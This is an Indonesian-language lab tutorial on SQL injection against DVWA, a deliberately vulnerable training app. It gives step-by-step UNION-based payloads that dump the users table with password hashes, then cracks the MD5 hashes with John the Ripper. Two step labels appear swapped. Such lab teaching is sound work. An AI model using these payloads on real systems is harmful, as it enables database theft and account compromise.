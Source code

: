 ## LESSON 6

Inti dari Lesson 6 adalah implementasi SQL Injection supaya mendapatkan **Username** dan **Password** yang terdapat dalam **Database**

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Manual SQL Injection**
1. Lakukan **Login** ke dalam **DVWA**. Lalu klik **SQL Injection** dan masukkan angka **1** ke dalam **Text Box** lalu klik **Submit**.

![SS 1](LESSON_6/1.png)

2. Always True Scenario

Masukkan command 

```
%' or 0=0 union select null, version() #
```

Hasil yang akan didapat adalah:
![SS 2](LESSON_6/2.png)

3. Menampilkan versi **Database**

Masukkan command

```
%' or '0'='0
```

![SS 3](LESSON_6/3.png)

4. Menampilkan **User Database**

Masukkan command

```
%' or 0=0 union select null, user() #
```

![SS 4](LESSON_6/4.png)

5. Menampilkan **Nama Database**

Masukkan command

```
%' or 0=0 union select null, database() #
```

![SS 5](LESSON_6/5.png)

6. Menampilkan semua **Table** pada **information_schema**

Masukkan command

```
%' and 1=0 union select null, table_name from information_schema.tables #
```

![SS 6](LESSON_6/6.png)

7. Menampilkan semua **User Table** yang ada di **information_schema**

Masukkan command

```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

![SS 7](LESSON_6/7.png)

8. Menampilkan semua **Column** yang ada di dalam **User Table information_schema**

```
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

![SS 8](LESSON_6/8.png)

9. Menampilkan semua **Content** dari **Column** yang ada di dalam **User Table information_schema**

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

![SS 9](LESSON_6/9.png)

**B. Membuat Password Hash File**
1. Membuat **file** yang berisi **Username** dan **Password** dari **User** dengan penulisan **Username**:**Password**

![SS 10](LESSON_6/10.png)

2. **Save** dengan nama **dvwa_password.txt** ke dalam **/pentest/passwords/john**

![SS 11](LESSON_6/11.png)

**C. John the Ripper**
1. Masuk ke dalam folder **john**

```
cd /pentest/passwords/john
```

2. Masukkan command

```
./john --format=raw-MD5 dvwa_password.txt
```

![SS 12](LESSON_6/12.png)

### Kesimpulan Lesson 6

Menggunakan **SQL Injection** dapat menemukan **Username** dan **Password** dari **Database**
